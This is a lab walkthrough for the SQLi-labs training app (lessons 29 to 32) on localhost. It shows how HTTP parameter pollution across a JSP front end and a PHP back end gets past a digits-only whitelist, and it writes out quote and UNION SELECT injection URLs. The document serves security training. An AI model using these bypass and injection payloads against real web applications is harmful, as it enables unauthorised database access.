Get into action
We're going to work on Lesson 29, 30 and 31.
1. Changing different ID numbers.
URL: http://localhost:8080/sqli-labs/Less-29/?id=1

Result: We got Login Name and Password of any “id” number.
2. Try to fuzz it.
URL: http://localhost:8080/sqli-labs/Less-29/?id=2'

Result: The page redirect us to a page called “hacked.jsp”.
If we try another number as “1111”
URL: http://localhost:8080/sqli-labs/Less-29/?id=1111

Result: It works but it doesn't return anything.
With an alphanumeric parameter or a slash “\” the page redirect us to the “hacked.jsp” page.
If we analize the page “/var/lib/apache-tomcat-7.0.108/webapps/ROOT/sqli-labs/Less-29/index.php" we'll see that only digits are allowed in the query, and otherwise we're redirected to “hacked.jsp” file.

3. Back to Lesson 1.
You can query as http://localhost/Less-1/?id=1 and you'll get the data of user 1.
If you try this query: http://localhost/Less-1/?id=1&id=8 you'll get the last parameter data. In this case is the “admin” data.

Result: The application responds with second value (id=8), so ignore the first parameter. PHP when running on Apache gives an output of the last parameter value, the rest are ignored.
4. Bypass this problem.
We have to use “Impedance Mismatch”.
Our lab schems is the following.

You can see the frontend technology is diffeent to the backend one.
5. Trying with JSP.
Open Lesson 32 because is identical to Lesson 1 but it's prepared in JSP.
URL: http://localhost:8080/sqli-labs/Less-32/index.jsp?id=1

Result: It gives us the samee result as in the first art of point 3.
URL: http://localhost:8080/sqli-labs/Less-32/index.jsp?id=1&id=8

Result: In thisi case it takes the first value becuse is JSP (Java) page and ignore everything else if there is a reoccurrence of the same parameter.
6. Try it on Lesson 29.
URL: http://localhost:8080/sqli-labs/Less-29/index.jsp?id=1&id=8

Result: We can bypass the whitelist firewall if it's suceptible to the the “Impedance Mismatch”.
7. Inject a quote “'”.
URL: http://localhost:8080/sqli-labs/Less-29/index.jsp?id=1&id=8'

Result: We've broken the query.
8. Inject any type of query.
URL:: http://localhost:8080/sqli-labs/Less-29/index.jsp?id=1&id=' union select 1,2,3 -+

Result: We got any kind of data from the database as in previous lessons.